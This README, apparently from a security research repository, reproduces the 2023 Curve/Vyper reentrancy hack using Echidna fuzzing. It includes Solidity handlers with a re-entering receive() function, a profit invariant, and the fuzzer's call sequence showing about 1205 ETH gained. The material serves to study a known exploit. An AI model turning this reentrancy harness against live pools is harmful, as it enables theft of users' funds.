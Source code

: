 # Curve Hack - Fuzzing Reproduction

## Description
This repository contains a reproduction of one of the Curve reentrancy hacks caused by a compiler issue in Vyper. Assets stolen from the Curve pools exceeded $41 million. For more details, refer to [this](https://rekt.news/curve-vyper-rekt/) article on Rekt.

## Methodology
To reproduce the bug, we utilize Echidna's on-chain fuzzing. 

We define a single invariant to check if an attacker can increase their ETH balance.
```solidity
function testProfit() public {
    uint256 balance = address(this).balance;
    gte(initialBalance, balance, "Profit test");
}
```

We then add handlers to add and remove liquidity to the Curve pool, focusing solely on ETH for simplicity. By clamping, we ensure the fuzzer only adds or removes an amount within the attacker's current balance.
```solidity
    function addLiquidity(uint128 _amount) public {
        _amount = uint128(clampBetween(_amount, 0, address(this).balance));

        uint256[2] memory amount;
        amount[0] = _amount;
        amount[1] = 0;

        pool.add_liquidity{value: _amount}(amount, 0);
    }

    function removeLiquidity(uint128 _amount) public {
        _amount = uint128(
            clampBetween(_amount, 0, pool.balanceOf(address(this)))
        );

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 0;

        pool.remove_liquidity(_amount, amount);
    }
```

Given the hack involves reentrancy, we implement a rudimentary reentrancy handler in the `receive` function.
```solidity
    receive() external payable {
        if (reentrancyEnabled) {
            uint256 functionId = (reentrancyFunction % 2 == 1) ? 0 : 1;

            if (reentrancyFunction == 0) {
                addLiquidity(reentrancyAmount);
            } else if (reentrancyFunction == 1) {
                removeLiquidity(reentrancyAmount);
            }
        }
    }
```

The behavior of this handler is controlled by global variables, which are set by the fuzzer.
```solidity
    function setReentrancyEnabled(bool _reentrancyEnabled) public {
        reentrancyEnabled = _reentrancyEnabled;
    }

    function setReentrancyFunction(uint8 _reentrancyFunction) public {
        reentrancyFunction = _reentrancyFunction;
    }

    function setReentrancyAmount(uint128 _reentrancyAmount) public {
        reentrancyAmount = _reentrancyAmount;
    }
```

Echidna typically detects the bug within 5 minutes on a single worker. The sequence leading to the hack can be seen below.
```
testProfit(): failed!💥
  Call sequence, shrinking 1739/5000:
    Fuzz.setReentrancyAmount(62297794394773161987899947455086967966)
    Fuzz.addLiquidity(287947091533324425929789050717863786957)
    Fuzz.removeLiquidity(209948338645151591393209938770631982993)
    Fuzz.addLiquidity(58576701019271218016466182754478192010)
    Fuzz.removeLiquidity(967)
    Fuzz.setReentrancyEnabled(false)
    Fuzz.removeLiquidity(247696123990480820083721037276151777885)
    Fuzz.testProfit()

emit AssertGteFail(«Invalid: 1000000000000000000000000<1001205683176915736170634 failed, reason: Profit test»)
```

Total profit: `1205683176915736170634` (1205 ETH).

## Future Research
The current Proof of Concept is deliberately kept simple to optimize for fuzzing. Enhancing it to resemble a more comprehensive fuzzing suite could include:
-  Adding a handler for `exchange`
- Support for adding liquidity to all tokens in the pool
- Simulating multiple actors

While these additions would increase the complexity and slow down the fuzzing process due to a larger search space, they would still effectively reproduce the hack.

## Links
- https://rekt.news/curve-vyper-rekt/
- https://hackmd.io/@LlamaRisk/BJzSKHNjn
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2023-07/Curve_exp01.sol

